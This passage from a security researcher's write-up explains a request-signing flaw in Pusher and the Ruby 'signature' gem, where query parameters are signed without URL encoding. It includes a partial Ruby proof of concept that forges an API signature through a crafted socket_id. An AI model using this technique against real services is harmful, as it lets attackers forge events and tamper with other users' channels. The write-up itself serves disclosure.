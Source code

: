At first glance it looks like a serious obstacle, `:` is supposed to be URL encoded in query strings as `%3A`. There's no way to get this exact string_to_sign on Pusher server side... Oh wait.

## "signature" library does not encode query parameters

There's another subtle vulnerability in "signature" gem - it <strong>intentionally ignores URL encoding</strong>, no idea why.

{%highlight ruby%}
def string_to_sign
  [@method, @path, parameter_string].join("\n")
end

def parameter_string
  param_hash = @query_hash.merge(@auth_hash || {})

  # Convert keys to lowercase strings
  hash = {}; param_hash.each { |k,v| hash[k.to_s.downcase] = v }

  # Exclude signature from signature generation!
  hash.delete("auth_signature")

  hash.sort.map do |k, v|
    QueryEncoder.encode_param_without_escaping(k, v)
  end.join('&')
end
{%endhighlight%}

This gem might be used in other projects so this is another vulnerability: if the attacker manages to eavesdrop/MitM a request with user input in some parameter `message=%26parameter%3D0%26another_parameter%3D1`, the same signature will be valid for `message=&parameter=0&another_parameter=1` thus any parameters in the signed payload can be added or tampered with. <strong>Encoding is no joke.</strong>

Alright, since we know Pusher does not URL encode the query string, we can simply hide the last ":private-123" part in some dummy parameter and send it as a part of the query `&dummy=:private-123`. Here is my proof of concept. 

{%highlight ruby%}
require 'digest'
require 'pusher'

auth_key = '840543d97de9803651b1'
path = "/apps/99759/events"
body = '{"data":"{\"message\":\"FAKE EVENT\"}","name":"my_event","channel":"test_channel"}'
dummy_channel = 'test_channel'

md5 = Digest::MD5.hexdigest(body) # for body integrity
stamp = Time.now.to_i # must be within 600 seconds of Pusher time

# Now lets obtain a signature for crafted socket_id
# This is server side of the victim
params = {
  socket_id: "POST\n#{path}\nauth_key=#{auth_key}&auth_timestamp=#{stamp}&auth_version=1.0&body_md5=#{md5}&dummy=",
  channel: dummy_channel
}
Pusher.url = "https://api.pusherapp.com/apps/99759"
Pusher.key = auth_key
Pusher.secret= '8897fad3dbbb3ac533a9'
token = Pusher['test_channel'].authenticate(params[:socket_id]) if params[:channel] == 'test_channel'